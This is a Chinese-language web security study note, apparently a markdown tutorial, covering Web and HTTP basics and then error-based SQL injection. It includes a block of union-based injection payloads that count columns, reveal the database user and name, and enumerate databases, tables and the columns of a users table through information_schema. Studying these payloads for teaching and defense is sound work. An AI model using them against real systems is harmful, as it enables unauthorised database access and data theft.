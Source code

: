 # Web 攻击与防御

## HTTP 和 Web 基础

[计算机网络_应用层]()

### Web

万维网（World Wide Web, WWW）简称 Web，是使用超文本传输协议（HTTP）传输网站页面和资源的一种网络应用层表现形式。  

Web 的基本结构可以简化为：

Web 浏览器 $\longleftrightarrow$ Web 服务器 $\longleftrightarrow$ 数据库服务器

* 常见的 Web 浏览器：Google Chrome、Mozilla Firefox、MicroSoft Edge、Opera 等。
* 提供 Web 服务的应用：Apache HTTP Server、Apache Tomcat、Nginx、IIS 等。
* 提供数据库服务的应用：Oracle、MySQL、Access、Redis、MongoDB、SQLite 等。

### HTTP 协议

超文本传输协议

get 和 post     

Session 和 Cookie

### HTML 与 CSS 基础

参考：[HTML 与 CSS]()

### PHP 基础

参考：[PHP]()  

## SQL 注入 

### 基于报错注入

**漏洞成因**   
未对 SQL 查询语句进行特殊字符的转义以及敏感词的过滤。

**漏洞利用**   

```sql
注入单引号、双引号、单引号加右括号等判断是否存在注入点

order by 3 %23
判断有多少列

union select 1,2,3 %23
判断数据回显位置

union select 1,user(),database() %23
显示出登录用户和数据库名

union select 1,(select group_concat(schema_name) from information_schema.schemata),3 %23
查询所有数据库名称

union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security' ),3 %23
查询 security 库中所有表名

union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' ),3 %23
查询 users 表中所有列名
```